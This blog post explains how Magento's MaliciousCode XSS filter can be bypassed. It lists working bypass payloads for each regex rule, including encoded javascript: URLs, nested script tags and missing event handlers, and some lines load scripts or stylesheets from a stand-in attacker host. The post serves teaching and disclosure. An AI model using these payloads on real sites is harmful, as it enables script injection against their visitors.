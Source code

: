 ```yaml
---
layout: post
title: "Circumventing XSS filters"
thumbnail: water-pipe-240.jpg
---
```


XSS or cross site scripting is an attack where an hacker injects Javascript in a page that is then run by another visitor. To prevent this, some software tries to remove any Javascript from the input. This is pretty hard to implement correctly.  In this article I will show some code that tries to remove Javascript code from the input, and show several ways to circumvent this.

Take for example the class [`Mage_Core_Model_Input_Filter_MaliciousCode`](https://github.com/nexcess/magento/blob/master/app/code/core/Mage/Core/Model/Input/Filter/MaliciousCode.php)
from the webshop software [Magento](https://magento.com/). This class is meant to filter "malicious code", which means any way to insert Javascript. 

The code looks like this:

    protected $_expressions = array(
        '/(\/\*.*\*\/)/Us',
        '/(\t)/',
        '/(javascript\s*:)/Usi',
        '/(@import)/Usi',
        '/style=[^<]*((expression\s*?\([^<]*?\))|(behavior\s*:))[^<]*(?=\>)/Uis',
        '/(ondblclick|onclick|onkeydown|onkeypress|onkeyup|onmousedown|onmousemove|onmouseout|onmouseover|onmouseup|onload|onunload|onerror)=[^<]*(?=\>)/Uis',
        '/<\/?(script|meta|link|frame|iframe).*>/Uis',
        '/src=[^<]*base64[^<]*(?=\>)/Uis',
    );

    function filter($value) {
        return preg_replace($this->_expressions, '', $value);
    }

The variable `$_expressions` contains a list of regular expressions that are removed from the text by the `preg_replace`. So if you type `<script>foo</script>`, both tags will be removed and only `foo` will remain.

Let's look at ways to circumvent this filter. Our goal is to pass some HTML through it that executes Javascript. The filter has several expressions that are meant to prevent this:

| Filter regex | Possible exploit |
| ------------ | ---------------- |
| `(javascript\s*:)` | `<a href="javascript:alert('xss')">` |
| `@import` | `@import url(http://attacker.org/malicious.css)` |
| `style=…` | `<div style="color: expression(alert('XSS'))">` |
| `ondblclick|onclick|…` | `<div onclick="alert('xss')">` | 
| `<script…` | `<script>alert("XSS")</script>` |

## Javascript URL

A link can be made to run javascript by using `javascript:…` in the URL:

    <a href="javascript:alert('test')">link</a>

Our filter removes `javascript:` from the code, so we can't use the above code directly. We can try to change the `javascript:` part so that it is still executed by the browser, but doesn't exactly match the regex. Let's try to URL-encode a letter:

    <a href="java&#115;cript:alert('xss')">link</a>

The regex no longer matches, but the browser will still execute this because it does URL-decode the link before using it.

Besides Javascript there is also VBScript. It is deprecated and disabled in IE11, but works on older versions of Internet Explorer or if you put IE11 in IE10 emulation mode. We can use this to run some code in the same way as Javascript links:

    <a href='vbscript:MsgBox("XSS")'>link</a>

## CSS import

Internet Explorer supports Javascript expressions in CSS, called [dynamic properties](https://msdn.microsoft.com/en-us/library/ms537634(v=vs.85).aspx). Allowing an attacker to load an external CSS stylesheet would thus be dangerous, as the attacker can now run Javascript in the context of the original page.

    <style>
    @import url("http://attacker.org/malicious.css");
    </style>

And in malicious.css:

    body {
        color: expression(alert('XSS'));
    }

We can circumvent the `@import` filter by using a backslash escape character in the CSS:

    <style>
    @imp\ort url("http://attacker.org/malicious.css");
    </style>

Internet Explorer allows for the backslash and now it passes our filter.

## Inline style

We can also use the dynamic properties supported by Internet Explorer in inline style:

    <div style="color: expression(alert('XSS'))">

The filter will check for `style`, followed by anything that is not a `<`, followed by `expression`:

    /style=[^<]*((expression\s*?\([^<]*?\))|(behavior\s*:))[^<]*(?=\>)/Uis

So let's put a `<` somewhere in there:

    <div style="color: '<'; color: expression(alert('XSS'))">

This passes the filter because the `[^<]` does not match our `<`, and this is still valid CSS. Although `<` is not a valid color, the rest of the CSS is still used.


## Javascript events

One can define event handlers on an element like this:

    <div onclick="alert('xss')">

Now this Javascript would only be run when someone clicks on it, but there are also events that are triggered when the page loads or when the user moves his mouse. Many of these events are removed by the filter, but it simply does not contain all event handlers. For example, `onmouseenter` is missing:

    <div onmouseenter="alert('xss')">

Our code is run when the user moves his mouse onto the div.

Another way to circumvent this is to put a space between the attribute and the `=`. Magento fixed this in a later version of the MaliciousCode filter.

    <div onclick ="alert('xss')">

## Script tag

A script tag can be used to define inline script, or load a script file from another location:

    <script>alert("XSS")</script>
    <script src="http://attacker.org/malicious.js"></script>

Our filter removes any `<script>` tags. However, it only does so once, so we can make sure that the content that we want ends up after removing the tags:

    <scr<script>ipt>alert("XSS")</scr<script>ipt>

The filter removes the two occurences of `<script>`, and we end up with exactly the code that we want. In fact, this method of nesting tags can be used to circumvent any of filter expressions.

## Conclusion

Although the filter tries to block several methods of script injection, we found circumventions for all of them. It is not easy to create a filter to prevent XSS attacks. There are several types of encoding and a number of different browser behaviours you have to take into account. This makes it hard on the developer and easy on the attacker.

## Security implications

I have shown some ways to get Javascript through this filter anyway. This could be a security risk, except that this filter is never used with untrusted input. As can be read in the [Magento 2.0.1 release notes](https://magento.com/security/patches/magento-201-security-update):

> A user can easily bypass the MaliciousCode filter function when entering HTML code. However, Magento rarely uses this filter, and none of its current usages allow unauthenticated user input.

Furthermore, I contacted Magento on 23 January and they didn't consider this a security issue, so I felt free to publish this article.

